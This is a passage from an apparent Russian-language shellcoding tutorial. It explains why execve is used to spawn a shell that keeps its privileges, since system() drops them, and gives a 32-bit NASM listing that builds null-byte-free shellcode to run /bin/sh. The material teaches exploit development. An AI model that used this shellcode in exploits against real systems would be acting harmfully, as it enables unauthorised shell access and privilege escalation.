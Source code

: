![man execve](./images/12/2021-10-11_13-03.png){width="80%"}    

Примечание: `system("/bin/sh")` был бы гораздо проще, верно? Однако основная проблема этого подхода в том, что `system` всегда сбрасывает привилегии.

Итак, `execve` принимает 3 аргумента:
* Программа для выполнения - EBX
* Аргументы или `argv(null)` - ECX
* Окружение или `envp(null)` - EDX

Теперь запишем код без нулевых байтов, используя стек для хранения переменных (`example3.asm`):

```nasm
; запуск /bin/sh и нормальный выход
; автор @cocomelonc
; nasm -f elf32 -o example3.o example3.asm
; ld -m elf_i386 -o example3 example3.o && ./example3
; 32-битный Linux

section .bss

section .text
  global _start   ; точка входа для линковщика

_start:           ; точка входа

  ; xoring любого значения с самим собой обнуляет его:
  xor eax, eax    ; обнуляем eax
  xor ebx, ebx    ; обнуляем ebx
  xor ecx, ecx    ; обнуляем ecx
  xor edx, edx    ; обнуляем edx

  push eax        ; терминатор строки
  push 0x68732f6e ; "hs/n"
  push 0x69622f2f ; "ib//"
  mov ebx, esp    ; "//bin/sh",0 указатель на ESP
  mov al, 0xb     ; mov eax, 11: execve
  int 0x80        ; системный вызов
```